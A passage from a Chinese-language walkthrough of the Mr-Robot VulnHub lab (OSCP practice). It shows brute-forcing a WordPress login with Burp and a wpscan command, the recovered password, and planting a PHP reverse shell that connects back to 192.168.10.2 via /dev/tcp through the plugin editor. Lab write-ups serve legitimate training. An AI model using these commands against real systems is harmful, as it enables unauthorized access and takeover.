 再设置一个过滤条件，虽然`burp`有一个功能是可以直接进行过滤的，不过那是在专业版才有的功能，在某些考试是只能使用社区版的，所以，这里尽量不使用那个功能

这里的设置是在社区版也是可用的

![](D:\stu\vulnhub\OSCP必刷靶场\mr-Robot靶场\pic\23.jpg)

然后开始爆破，注意观察设置的过滤，发现一个用户提示不一样`elliot`

![](D:\stu\vulnhub\OSCP必刷靶场\mr-Robot靶场\pic\24.jpg)

这里提示是用户`Elliot`的密码错误，啧，突然想到这里对于暴力破解是没有做任何限制的，这就考察基本的思路点，对于现实碰到的条件限制，进一步思索，这里有爆破的思路即可

那么再次使用这个数据包，对用户`Elliot`的密码再破解，这里我依然建议使用`burp`，不过把资源池调高一点，也就是线程调高

![](D:\stu\vulnhub\OSCP必刷靶场\mr-Robot靶场\pic\25.jpg)

依然设置过滤，不过这里需要刷新一下，重新获取新的响应包

![](D:\stu\vulnhub\OSCP必刷靶场\mr-Robot靶场\pic\26.jpg)

这里需要时间，要等等，查看网上`wp`，确定密码为`ER28-0652`，检测字典文件，发现在最后，这字典太大了，以我电脑配置，这时间太长，所以我把位置调整了一下

![](D:\stu\vulnhub\OSCP必刷靶场\mr-Robot靶场\pic\27.jpg)

这里也可以使用`wpscan`进行测试，可能也会比`burp`快吧，因为同样的位置，我电脑配置来说，`wpscan`更快

```shell
wpscan --url http://192.168.10.12 -U Elliot Elliot -P dic -t 50
```

![](D:\stu\vulnhub\OSCP必刷靶场\mr-Robot靶场\pic\42.jpg)



# 登录网站后台

用户`Elliot`，密码为`ER28-0652`，以这个身份去登录

成功进入后台，那么先看插件吧，毕竟对于`wordpress`插件漏洞很多

![](D:\stu\vulnhub\OSCP必刷靶场\mr-Robot靶场\pic\28.jpg)

在下面发现`hello dolly`，直接把它激活，然后进入编辑界面，测试能否编辑，发现可以，那么可以自己编写反弹`shell`，或者利用`kali`中带有的反弹`shell`

![](D:\stu\vulnhub\OSCP必刷靶场\mr-Robot靶场\pic\29.jpg)

先更改以下代码进行测试，若不行，再更换，触发反弹`shell`，当然还是需要先在`kali`开启监听的

```php
<?php
system("/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'");
?>
```

![](D:\stu\vulnhub\OSCP必刷靶场\mr-Robot靶场\pic\30.jpg)

# 提权
